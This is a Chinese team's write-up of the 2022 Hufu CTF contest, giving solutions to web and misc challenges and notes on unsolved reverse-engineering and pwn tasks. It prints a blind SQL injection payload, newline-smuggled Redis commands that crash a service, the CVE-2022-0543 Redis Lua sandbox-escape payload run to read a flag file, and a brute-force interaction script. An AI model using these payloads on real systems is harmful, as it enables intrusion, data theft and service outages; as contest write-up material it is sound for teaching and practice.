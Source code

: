 # 虎符CTF - COMPASS WriteUp 
>**(2022数字中国创新大赛虎符网络安全赛道)**

排名(高校) | 排名(总) | 解题 |  得分
-|-|-|-
31 | 42 | 6 | 1529

分类 | 名称 | 分值
-|-|-
Web | [babysql](#babysql) | 232 pt
Misc | [Check in](#check-in-一血) | 31 pt 
Misc | [Plain Text](#plain-text) | 79 pt
Misc | [Quest-Crash](#quest-crash) | 99 pt
Misc | [Quest-RCE](#quest-rce) | 150 pt
Misc | [handle](#handle-二血) | 909 pt

## Web
### babysql
username&password 注入  
```
'or~''and`password`COLLATE`utf8mb4_0900_as_cs`regexp'^[[prefix]]'and`password`regexp'(
```
通过 `[[prefix]]` 盲注，401 为 failed，500 为 match。  
得到  
username: `QaY8TeFYzC67aeoO`  
password: `m52FPlDxYyLB^eIzAr!8gxh$`

## Misc
### Check in (一血)
全选复制快速签到，号称COMPASS签到团

### Plain Text
base64得解码后的东西试了各种常见编码加密，未果。  
打开谷歌翻译，源语言选俄语，然后直接键盘输入，得到了flag：  
`所有的密码都很细，苹果和西瓜`  

为什么发现是俄语呢，因为google前两个词，出来了俄语文章  
### Quest-Crash
```
{"query":"SET 114514 1919810\nGET 114514\nPING"}
```  
可以执行多条，可以绕过，于是   
```
{"query":"SET 114514 1919810\nGET 114514\nDEBUG SEGFAULT"}
```  
可以崩掉服务。

### Quest-RCE
根据[ vulhub/CVE-2022-0543 ](https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543) 找到payload  
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
题目环境和版本完美符合，不需要改lib路径，放到上一题的请求后边就可以RCE  
```
{"query":"SET 114514 1919810\nGET 114514\neval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat flag_UVEmnDKY4VHyUVRVj46ZeojgfZpxzG", "r"); local res = f:read("*a"); f:close(); return res' 0"}
```

### handle (二血)
~~（隔壁某show平台上周刚做过类似的题，于是很快就把字典搞出来了，但是交互写了很久丢掉了一血）~~
思路就是找一个有优势的固定词开头，然后根据返回结果分枝(枝)，根据不同枝选择不同的尝试（剪枝，但是其实是只处理一枝），这样接下来要处理的重复量就少很多，重复这个过程两次，几乎每一个可能的词都有对应序列了。  
简单统计一下生母韵母音调的频率，但是依据这个找出比较常见的词跑三轮之后会有400+个重复的路线，也就是这400+个词如果抽到大概率失败，算一下成功率`pow(1-400/26000,512)`是恐怖的万分之三，于是random choice字典里的词开始跑，最后找到 **露己扬才** 只有一百多重复，成功率`pow(1-100/26000,512)`已经提升到了十分之一，决定多跑几次出flag。  
P.S.因为成功之后就没有 **>** 输出了，所以边界条件炸了，在第512轮强制进交互赌第二轮出结果。  

首先是生成字典的函数，kk是第一个固定的开头词，根据每次返回的文本更新键值对，然后对有多个结果的key迭代延长，每次选择第一个可能的结果，最后的重复个数即为有可能失败的词的数量：
```python
# 其余内容和源代码完全一样，节省空间就不粘贴了
with open('idioms.txt', 'r', encoding='utf8') as f: # utf8
    idioms = [x.strip() for x in f.readlines()]

def check(guess, answer): # 魔改的check，改返回值为输出内容 方便到时候直接用服务器返回内容更新
    guesspy = get_pinyin(guess)
    answerpy = get_pinyin(answer)
    r = ""
    py_results = [check_part(guesspy[i], answerpy[i]) for i in range(3)]
    for i in range(4):
        for j in range(3):
            r += (wrap_color(guesspy[j][i], py_results[j][i]))
        r += ' '
    r += '\n'
    results = check_part(guess, answer)
    for i in range(4):
        r += wrap_color(guess[i], results[i])
    r += '\n'
    return r.encode(), r

def gen(kk):
    d = {}
    dup = []
    for i in idioms:
        s = check(kk, i)[0] 
        if s in d.keys():
            d[s].append(i) # 其实这里用s的哈希也是可以的，但是不方便debug，而且提速不明显
            dup.append(s)
        else:
            d[s] = [i]
    print(f'finish init round1 with {len(dup)} dup.')
    dup = set(dup)
    dup2 = []
    for i in dup:
        for j in d[i]:
            s = check(d[i][0], j)[0]
            if s in d.keys():
                d[s].append(j)
                dup2.append(s)
            else:
                d[s] = [j]
    print(f'finish init round2 with {len(dup2)} dup.')
    dup2 = set(dup2)
    dup3 = []
    for i in dup2:
        for j in d[i]:
            s = check(d[i][0], j)[0]
            if s in d.keys():
                d[s].append(j)
                dup3.append(s)
            else:
                d[s] = [j]
    print(f'finish init round3 with {len(dup3)} dup.')
    return d

while True:
    s=random.choice(idioms)  # 因为遍历不完，连续的词特征重复性高，所以随机抽了
    print(s)
    d = gen(s) # 如果第三个结果能小于200就能用了，多跑几轮肯定能拿到flag
    list3_file = open('list3.pickle', 'wb1')
    pickle.dump(d, list3_file)
    list3_file.close()
```
然后是多次尝试的利用脚本
```python
list3_file = open('list3.pickle', 'rb') # 上边生成的
d = pickle.load(list3_file)
# context.log_level = 'debug'

while True:
    try:
        p = remote("120.77.30.1", 48771)
        p.recvuntil(b"> ")
        for r in range(512):
            print(r)
            p.sendline('露己扬才'.encode())
            res = p.recvuntil(b"> ")
            while b'Round' not in res:
                s = res[:-2]
                p.sendline(d[s][0])
                if r == 511:
                    p.interactive() # 边界条件炸了，在第512轮强制进交互赌第二轮出结果
                res = p.recvuntil(b"> ")
    except:
            time.sleep(1)

p.interactive()
```
因为疫情不在学校，交互提速的小trick就是去IP所在地租个服务器，比如这里租个广东的阿里云或者腾讯云的服务器，交互飞快，几秒跑一轮，体验如同本地一般。  

## 后记
RE的2048完美还原了js，找到了后门函数和魔改的TEA加密还有换表的base64。  
但是对四个native方法的逆向没有完成，静态绑定的两个方法勉强能看，check和pre两个动态方法就找不到符号了。  
本地没准备好ARM环境上不了动态，被so的OLLVM爆杀，遗憾放弃。  

PWN的签到babaygame泄露出rbp-4不知道能做什么，随机数比较好模拟，但是格式化字符串只能利用一次。  
按之前的知识需要第一次泄露libc地址比如__libc_start_main+243，第二次写返回地址为gadget或者system，需要两次。  
然后想能不能覆写ret的低位短跳一下重复执行格式化字符串的函数，然后就是常规思路了。  
或者也可以暴力爆PIE，但是这两个思路都没来得及实现。

总之还是有不少遗憾的，这两题再出一题就能公费旅游了（大概）。
不过第一次和全国几乎所有顶级强队竞技能拿到这样的排名也是一大进步了，考虑到前边还有清北复浙交北邮中科大国科大，我们高校组排名好像还不错（逃）